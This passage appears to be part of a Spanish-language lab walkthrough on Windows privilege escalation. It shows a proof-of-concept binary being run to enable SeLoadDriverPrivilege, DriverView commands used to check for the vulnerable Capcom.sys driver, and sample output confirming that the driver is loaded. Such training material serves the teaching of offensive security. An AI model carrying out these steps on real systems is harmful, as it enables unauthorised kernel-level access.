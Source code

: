 Herramienta usada: [`DriverView.exe`](https://www.nirsoft.net/utils/driverview.html) de Nirsoft.

Comandos del texto:

```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

**Explicación**:

* `DriverView.exe /stext drivers.txt`: exporta la lista de drivers a `drivers.txt` en formato texto.
* `Select-String -pattern Capcom`: en PowerShell, filtra `drivers.txt` buscando la cadena `Capcom`.
* Resultado esperado: ninguna coincidencia (driver no cargado aún).

---

## 7) Ejecutar la PoC para habilitar el privilegio

Comando:

```
EnableSeLoadDriverPrivilege.exe
```

Salida de ejemplo:

```
whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```

**Interpretación**: tras ejecutar la PoC, `SeLoadDriverPrivilege` aparece como `Enabled` — ahora la cuenta puede invocar `NtLoadDriver` para cargar el driver referenciado en el registro.

---

## 8) Verificar que Capcom aparece ahora listado

Repetir el volcado de drivers y filtrar por `Capcom`:

```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

Salida esperada:

```
Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```
